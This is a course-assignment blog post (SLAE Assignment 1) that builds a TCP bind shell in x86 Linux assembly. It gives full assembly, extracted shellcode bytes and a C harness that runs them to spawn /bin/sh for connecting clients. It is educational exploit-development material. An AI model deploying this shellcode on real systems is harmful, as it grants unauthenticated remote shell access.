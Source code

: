 ```yaml
---
title: "SLAE Assignment 1"
date: 2018-02-02
categories: securitytube slae linux assembly
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[GitHub code repo](https://github.com/wsummerhill/SLAE)

Assignment 1 of the SLAE requires students to create a TCP bind shell in assembly which binds to a port and executes a shell on an incoming connection. Additionally, the port number should be configurable upon execution.

If I break down the functions required for a TCP bind shell in a basic C program, the functions used would be as follows:

1. socketCall
2. bind
3. listen
4. dup2 (x3)
5. execve

I used an online resource to determine the registers and function parameters of each system call above. Each function is separated in the below assembly and executed one at a time until the final execve call is executed.

The networking socket functions can be found with cat /usr/include/linux/net.h which will tell us the call identifier used in the socketcall function since they are different for each operation.

Putting everything together I got the assembly code below.

```
;Author: Will Summerhill
;Create shell_bind_tcp shellcode
;bind to a port - accept as input
;exec shell on incoming connections

;cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socket - socketcall = 102 (hex 0x66)
;cat /usr/include/i386-linux-gnu/bits/socket_type.h |grep 'SOCK_STREAM'
;Function socket(domain, type, protocol)
;    (AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
;    (EAX, EBX, ECX)

global _start

section .text
_start:

; SocketCall function:
  xor  eax, eax    ;AF_INET = 2
  mov al, 0x02

  xor ebx, ebx    ;EBX: SOCK_STREAM = 1
  mov bl, 0x01

  xor edx, edx    ;EDX: IPPROTO_IP = 0
   
  push edx                ; TCP = 0
  push ebx                ; SOCK_STREAM = 1 
  push eax                ; AF_INET = 2 

  xor ecx, ecx
  mov ecx, esp    ;save stack into ECX

  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  int 0x80    ;execute

  mov edx, eax    ;EDX = sockfd output

; Bind function:
  ;int bind(int sockfd, const struct sockaddr *addr(), socklen_t addrlen)
  
  ;Push *addr() first onto stack
  ;*addr(addr family = AF_INET [2], port [1234], IP addr = INADDR_ANY [0])
  xor ebx, ebx
  push ebx    ;INADDR_ANY = 0
  push word 0xd204  ;PORT: bind port = 1234 in reverse order (0x04d2)  
  push word 2    ;AF_INET = 2
  mov ecx, esp    ;save stack into ECX
  
  ;Now push whole bind() function onto stack in reverse order
  push 0x10    ;addrlen size
  push ecx    ;*addr function
  push edx    ;sockfd = socket from Socketcall function above

  ;call syscall to execute
  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  mov bl, 0x02    ;socketcall type = sys_bind 2
  
  mov ecx, esp    ;move to ECX for execution
  int 0x80    ;execute BIND

; Listen function:
  ;int listen(int sockfd = SOCK_STREAM, int backlog = 1)
  ;Push in reverse order to stack
  push 0x01  ;backlog
  push edx  ;sockfd = Socket from above
  
  xor eax, eax
  xor ebx, ebx
  mov al, 0x66  ;syscall = 0x66 hex (102 decimal)
  mov bl, 0x04  ;socketcall type = SYS_LISTEN
  
  mov ecx, esp
  int 0x80  ;execute syscall

; Accept function:
  ;accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
  ;  sockfd = listening socket created above
  ;  *addr = pointer to a sockaddr structure = NULL
  ;  addrlen = size of *addr = NULL
  
  xor eax, eax  ;clear registers
  xor ebx, ebx

  ; Push in reverse order
  push eax  ;addrlen = NULL
  push eax  ;*addr = NULL
  push edx  ;sockfd = created socket
  mov ecx, esp  ;move function from stack into ECX

  mov al, 0x66  ;syscall to execute
  mov bl, 0x05  ;socketcall type = SYS_ACCEPT 5

  int 0x80  ;execute LISTEN
  mov edx, eax  ;save returned sockfd into old socket

; Dup2 functions:
  ;dup2(int oldfd, newfd)  [syscall 63 (0x3f)]
  ;  EAX = 0x3f (63 decimal)
  ;  EBX = oldfd
  ;  ECX = newfd
  xor eax, eax
  mov al, 0x3f  ;dup2 syscall number (3f hex, 63 decimal)
  
  ;STDIN = 0
  mov ebx, edx  ;oldfd into EBX
  xor ecx, ecx  ;STDIN = 0
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDIN)

  ;STDOUT = 1
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx  ;oldfd into EBX
  inc ecx    ;STDOUT = 1
  int 0x80  ;execute dup2(oldfd = ebx,  newfd = STDOUT)

  ;STDERR = 2
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx
  inc ecx    ;STDERR = 2
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDERR)

; Execve function to execute //bin/sh
  ;execve(filename, argv[], envp[])
  ;  EBX = //bin/sh 0x0
  ;  ECX = address of //bin/sh
  ;  EDX = 0x000000
  
  ;Push contents in reverse order
  xor eax, eax
  push eax

  ; PUSH //bin/sh (8 bytes) in reverse order
  push 0x68732f2f    ;n/sh
  push 0x6e69622f    ;//bi
  mov ebx, esp    ;move into EBX 

  push eax  ;add 0 to stack
  push ebx  ;push address of //bin/sh to stack
  mov ecx, esp
  push eax  ;null terminator after //bin/sh
  mov edx, esp

  mov al, 0xb  ;execve syscall = 11
  int 0x80  ;execute EXECVE to start bind shell
```

It is possible to configure the bind port number as needed by modifying the shellcode in ASM at the line with “;PORT: bind port = 1234” by adding a different port number in big-endian format. 

I’ll use objdump to pull the shellcode from the program and copy it over to C.  
```
objdump -d ./A1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Now I’ll copy the shellcode into C so we can execute it. 

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length:  %d\n", strlen(code));
  int (*ret)() = (int(*)())code;
  ret();
}
```

Once we compile it the bind shell should listen for incoming connections. After executing the program and connecting using netcat, we get the bind shell on localhost.  

![image](https://user-images.githubusercontent.com/35749735/192896487-de82cef1-22eb-49d8-9fcf-c509dbfcdf12.png)

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%201).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109

